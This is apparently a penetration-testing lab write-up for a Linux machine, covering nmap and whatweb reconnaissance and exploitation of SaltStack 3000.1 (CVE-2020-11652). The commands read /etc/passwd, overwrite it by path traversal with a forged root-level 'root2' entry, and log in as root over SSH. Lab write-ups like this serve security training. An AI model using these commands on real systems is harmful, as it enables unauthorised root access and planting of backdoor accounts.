

____
IP= 192.168.179.62
Linux


# Nmap
| PORT   | STATE  | SERVICE    |
|--------|--------|------------|
| 22/tcp | open   | ssh        |
| 53/tcp | open   | domain     |
| 80/tcp | open   | http       |
|4505/tcp| open   | unknown    |
|4506/tcp| open   | unknown    |
|8000/tcp| open   | http-alt   |

```python
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (application/json).
```

## 80 - http

```bash
whatweb http://$IP
http://192.168.179.62 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.16.1], IP[192.168.179.62], JQuery[1.8.3], Script, Title[Home | Mezzanine], X-Frame-Options[SAMEORIGIN], nginx[1.16.1]
```

- nginx/1.16.1
- mezzanine

```bash
Mezzanine 4.2.0 - Cross-Site Scripting 
```

# 8000 - http

```bash
whatweb http://$IP:8000
http://192.168.179.62:8000 [200 OK] Allow[GET, HEAD, POST], Country[RESERVED][ZZ], HTTPServer[nginx/1.16.1], IP[192.168.179.62], UncommonHeaders[access-control-expose-headers,access-control-allow-credentials,access-control-allow-origin,x-upstream], nginx[1.16.1]
```



## 4505/4506 zmtp

ZeroMQ is a messaging library that provides high-level messaging patterns like publish/subscribe and request/reply for distributed or concurrent applications. ZMTP is the protocol used by ZeroMQ for communication between nodes.

### Saltstack 3000.1 - Remote Code Execution
https://www.exploit-db.com/exploits/48421
https://github.com/Al1ex/CVE-2020-11652

```bash
python3 exploit.py --master 192.168.179.62 -r /etc/passwd
```

Add root2 line
```bash
openssl passwd dani
```

```txt
root2:$1$MDuShAdK$.tLVPCC0Sbbi11xRhnez91:0:0:root:/root:/bin/bash
```

```bash
python3 CVE-2020-11652.py --master 192.168.179.62 --upload-src passwd --upload-dest ../../../../../../../../etc/passwd
```


## 22 - ssh

```bash
ssh root@$IP
dani
```
